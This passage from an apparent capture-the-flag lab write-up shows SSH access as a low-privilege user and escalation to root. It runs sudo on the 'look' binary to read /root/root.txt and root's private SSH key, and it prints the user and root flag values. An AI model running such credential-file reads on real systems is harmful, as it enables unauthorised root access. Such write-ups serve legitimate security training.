 ## First Access

Now we can access 'think' [SSH](../../3%20-%20Tags/Hacking%20Concepts/SSH.md) and read the user flag :

```
think@ip-10-10-116-56:~$ ls
user.txt
think@ip-10-10-116-56:~$ cat user.txt 
38375fb4dd8baa2b2039ac03d92b820e
```
# Privilege Escalation

We start [Privilege Escalation](../../3%20-%20Tags/Hacking%20Concepts/Privilege%20Escalation.md) to root with sudo -l :

```
think@ip-10-10-116-56:~$ sudo -l
[sudo] password for think: 
Matching Defaults entries for think on ip-10-10-116-56:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User think may run the following commands on ip-10-10-116-56:
    (ALL) /usr/bin/look

```

## GTFObins

We can check [GTFObins](../../3%20-%20Tags/Hacking%20Tools/GTFObins.md) to see if we can exploit this somehow :

![Pasted image 20250719175202.png](../../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250719175202.png) 

Let's try it to see the root flag :
```
think@ip-10-10-116-56:/$ sudo usr/bin/look '' "/root/root.txt"
5a285a9f257e45c68bb6c9f9f57d18e8
```

We can also copy root ssh key to our Kali machine and use it to root ssh :

```
think@ip-10-10-116-56:/$ sudo usr/bin/look '' "/root/.ssh/id_rsa"
```

Remember to make it readable with chmod 600 .